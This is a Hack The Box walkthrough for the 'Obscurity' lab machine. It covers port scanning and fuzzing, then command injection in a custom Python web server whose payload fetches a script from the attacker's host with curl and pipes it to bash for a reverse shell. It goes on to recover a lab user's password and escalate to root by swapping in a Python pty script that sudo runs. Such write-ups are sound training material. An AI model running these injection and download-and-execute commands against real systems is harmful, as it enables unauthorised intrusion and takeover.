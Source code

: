 # [Obscurity](https://app.hackthebox.com/machines/Obscurity)

```bash
nmap -p- --min-rate 10000 10.10.10.168 -Pn 
```

![alt text](img/image.png)


Let's do greater scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,8080 10.10.10.168 -Pn
```

![alt text](img/image-1.png)


Let's do `directory enumeration`.

```bash
gobuster dir -u http://10.10.10.168/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![alt text](img/image-2.png)

We cannot do `directory enumeration`, we have a lot of errors.


There's I see some message that `SuperSecureServer.py` is running for this target application.

![alt text](img/image-3.png)


Let's try to find this file's exact location via `wfuzz`.
```bash
wfuzz -c -w dev_dirs -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py --hl 6 --hw 367
```

![alt text](img/image-4.png)


Now, I currently know exact location of this file that `/develop/SuperSecureServer.py`

![alt text](img/image-5.png)


On `Request` class, there's method called `parseRequest` which , there's command injection is possible.
```bash
/';os.system('ping%20-c%201%2010.10.14.7');'
```

![alt text](img/image-6.png)

Let's enter this input and see result via `tcpdump` for `tun0` interface.

![alt text](img/image-7.png)


Now, it's time for reverse shell.


1.First, I create my malicious `bash` script.

![alt text](img/image-8.png)

2.Then, I open http server to serve this file
```bash
python3 -m http.server --bind 10.10.14.7 8080
```

![alt text](img/image-10.png)


3.Let's enter below input to get command injection.
```bash
/';os.system('curl%2010.10.14.7:8080/dr4ks.sh|bash');'
```

![alt text](img/image-9.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-11.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-12.png)


I find `SuperSecureCrypt.py` file on `robert's` desktop, let's abuse this.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d -o /dev/shm/key.txt
```

![alt text](img/image-13.png)


![alt text](img/image-14.png)


I got password of `robert` user.


robert: SecThruObsFTW


user.txt

![alt text](img/image-15.png)


For privilege escalation, I just run `sudo -l` on terminal.

![alt text](img/image-17.png)

Now, I will try to change name of directory called `BetterSSH` to another name via `mv` command, then create `BetterSSH` script which has malicious `python` script inside of this.

```bash
echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")' > BetterSSH.py 
```

![alt text](img/image-16.png)


root.txt

![alt text](img/image-18.png)